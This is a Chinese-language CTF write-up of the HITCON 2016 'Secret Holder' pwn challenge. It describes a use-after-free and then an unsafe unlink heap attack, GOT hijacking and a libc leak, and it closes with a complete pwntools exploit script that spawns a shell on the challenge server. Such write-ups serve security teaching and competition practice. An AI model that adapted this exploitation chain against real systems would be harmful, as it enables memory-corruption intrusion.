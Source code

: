```yaml
---
title: "[HITCON CTF 2016 Quals] Secret Holder 100"
author: bruce30262
tags:
- pwn
- heap
- HITCON CTF 2016
- Use After Free
- unsafe unlink
- smallbin
- one gadget
- GOT hijacking
categories:
- write-ups
date: '2016-10-14'
layout: post
---
```


## Info  
> Category: pwn  
> Point: 100  
> Author: bruce30262 @ BambooFox  
> 這題是比賽結束後才解出來的 :(

## Analyzing
64 bit ELF, Partial RELRO, 有canary & NX, 沒PIE

程式行為很簡單:

* keep secret: 新增一個 secret ( 使用 calloc )
* wipe secret: 刪除一個 secret
* renew secret: 編輯一個 secret

secret 種類有三種:

* small secret: secret buffer 大小為 40  
* big secret: secret buffer 大小為 4,000 
* huge secret: secret buffer 大小為 400,000 

三個 secret 的 buffer address 都會存在 global 段。

這題的洞主要是在 `wipe` 那邊，在刪除一個 secret 的時候不會檢查 secret 是否存在，因此存在著 Use-After-Free 的情形。例如 keep(small) --> wipe(small) --> keep(big) --> **wipe(small)**，這樣的操作可以製造出 dangling pointer。

比賽當下在解的時候頂多做出 small 和 big buffer overlapped 的情形，但是因為兩者的 base address 位於同樣的位址，因此無法改到 chunk header。此外雖然可以改到 top_size，但是因為 malloc 大小不可控的關係，因此也無法利用 [House of Force](https://github.com/shellphish/how2heap/blob/master/house_of_force.c) 來解這題。當時沒有想到要用 huge 來解題，因為覺得 huge 的 buffer 其 size 過大，必定會使用 `mmap` 來配置記憶體，所以覺得沒有什麼可以利用的點。比賽結束後，經詢問卻發現原來 huge 是這題的關鍵...


## Exploit
關鍵在於，第一次 `keep(huge)` 的時候的確會使用 `mmap` 來配置記憶體，但是將 huge 給 wipe 掉之後，**第二次 `keep(huge)` 時會使用 `malloc` 來進行配置**，而非 `mmap`。因此掌握到這點之後，我們可以透過以下步驟來 exploit 這題:

1. 先透過一連串的 `keep` 和 `wipe`，讓 small 和 huge 的 buffer 位置重疊 ( same base address )。
2. 之後 `keep(big)`，讓 big 的 buffer 位置接在 small 的後面。
3. `renew(huge)`，此時就可以蓋到 big 的 chunk header。我們可以在 big 的 buffer 位置偽造假的 smallbin，並在其附近偽造一些 chunk，之後 `wipe(big)`，做 [unsafe unlink attack](https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c)，overwrite 掉位於 global data 段上的 buffer address。
4. 假設改掉的是 huge 的 buffer address，之後我們就可以透過 `renew(huge)` 來覆寫掉所有 secret 的 buffer address。
5. 之後我們就可以透過 `renew(small/big/huge)` 來做任意位址讀寫。

(想了解 unsafe unlink 如何 work 的可以參考這兩篇: [link1](http://winesap.logdown.com/posts/258859-0ctf-2015-freenote-write-up), [link2](http://angelboy.logdown.com/posts/259180-0ctf-2015-write-up) )

能做到任意位址讀寫之後基本上就差不多了。因為 GOT 可寫的關係，因此接下來可以利用 GOT hijacking 來 exploit。不過因為這題我們還沒有 leak 的關係，因此要先透過 GOT hijacking 做 leak，之後再控制 control flow 拿 shell。

這裡我的做法是先將 free 改成 puts，並將 small 的 buffer 改成 `__libc_start_main@got.plt`，這樣子在 `free(small)` 的時候就可以 leak libc 的 address。之後再 hijack 任意一個 GOT 跳 [one gadget](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf)，即可拿到 shell。

```python
#!/usr/bin/env python
from pwn import *
import subprocess
import sys
import time

HOST = "52.68.31.117"
PORT = 5566
ELF_PATH = "./secret_holder_noalarm"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def keep(ch, secret):
    r.sendlineafter("3. Renew secret\n", "1")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

def wipe(ch):
    r.sendlineafter("3. Renew secret\n", "2")
    r.sendlineafter("3. Huge secret\n", str(ch))

def renew(ch, secret):
    r.sendlineafter("3. Renew secret\n", "3")
    r.sendlineafter("3. Huge secret\n", str(ch))
    r.sendafter("secret: \n", secret)

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    keep(1, "A"*8)
    keep(2, "A"*8)
    keep(3, "A"*8)
    wipe(1)
    wipe(2)
    wipe(3)

    keep(3, "3"*8) # now huge chunk will use malloc, not mmap!!
    wipe(1)
    keep(1, "A"*8) # now huge = small
    keep(2, "2"*8) # big will adjacent to the end of the small buffer

    # 0x6020a8 stores the huge buffer's address
    fake_fd = 0x6020a8 - 0x18
    fake_bk = 0x6020a8 - 0x10

    # overwrite big's chunk data with fake chunk data for unsafe unlink
    payload = p64(0) + p64(0x21) # fake prev_chunk header
    payload += p64(fake_fd) + p64(fake_bk) # fake fd and bk
    payload += p64(0x20) + p64(0x90) # we are going to free here
    payload += "B"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_chunk header
    payload += "C"*0x80
    payload += p64(0x90) + p64(0x91) # fake next_next_chunk header
    renew(3, payload)
    
    wipe(2) # free big, trigger unsafe unlink

    # now huge_buf will point to global data section
    # renew huge, overwrite small, big & huge buffer address
    payload = "A"*0x10
    payload += p64(0)
    payload += p64(0x6020b0) # &small_buf
    payload += p64(elf.got['free'])
    renew(3, payload)
    
    renew(1, p64(elf.plt['puts'])) # make free(buf) = puts(buf)
    
    # make small_buf = libc_start_main got
    # wipe(small) = puts(small) = puts(got) = leak address
    payload = p64(elf.got['__libc_start_main']) + p32(1)*3
    renew(3, payload)
    wipe(1)
    libc.address += u64(r.recvline().strip().ljust(8, "\x00")) - libc.symbols['__libc_start_main']
    one_gadget = libc.address + 0x4525a
    log.success("libc_base: "+hex(libc.address))
    log.success("one_gadget: "+hex(one_gadget))

    # hijack puts@got.plt, make it jump to one_gadget
    payload = p64(elf.got['puts']) + p32(1)*3
    renew(3, payload)
    renew(1, p64(one_gadget))

    r.interactive()
```

flag: `hitcon{The73 1s a s3C7e+ In malloc.c, h4ve y0u f0Und It?:P}`

這題學到的教訓是 fuzz 真的要做完整，然後不要太相信自己所學的東西 Q_Q